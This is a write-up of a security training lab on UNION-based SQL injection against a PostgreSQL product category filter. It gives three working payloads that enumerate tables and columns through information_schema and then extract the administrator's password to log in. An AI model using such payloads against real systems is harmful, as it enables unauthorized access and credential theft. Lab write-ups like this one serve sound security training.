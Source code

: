 # Lab: SQL injection attack, listing the database contents on non-Oracle databases
## Task
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Solution
### Exploit
Steps to explore the number of columns returned in the response as well as which column is string-compatible are the same as previous labs.  

To check which database it is, I queried the version of the database and the one of PostgreSql works, which means this database is PostgreSql.  

![image](https://user-images.githubusercontent.com/44528004/130075282-43dff783-130b-4aa5-ba5a-8855f2c60e88.png)


To view all table names, the payload is:
```
/filter?category=Pets'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```

As the result, the table that is likely to contain `username` and `password` is `users_erggze`:  

![image](https://user-images.githubusercontent.com/44528004/130074155-4594456b-6697-4c6f-a675-277074fc68f8.png)  

Then, to explore the column names in the `users_erggze` table, the payload is:
```
/filter?category=Pets'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_erggze'--
```

In the response, the columns that contain `username` and `password` are `username_kaddvg` and `password_gtnezs` :  

![image](https://user-images.githubusercontent.com/44528004/130074473-8a0b61f1-8855-4743-94d3-e32fc0492578.png)

To retrieve the password of the `administrator` user, the following payload is used:
```
/filter?category=Pets'+UNION+SELECT+username_kaddvg,password_gtnezs+FROM+users_erggze+WHERE+username_kaddvg='administrator'--
```

![image](https://user-images.githubusercontent.com/44528004/130074809-af78354d-6b1e-4504-bb35-84dfe9508b68.png)

### Login
![image](https://user-images.githubusercontent.com/44528004/130074922-298ce292-30ad-4760-8cb7-2b18ebbfe6cf.png)  

![image](https://user-images.githubusercontent.com/44528004/130074982-13fca45d-8c3b-4917-8a2e-0f03c1be3a55.png)
> Solved!
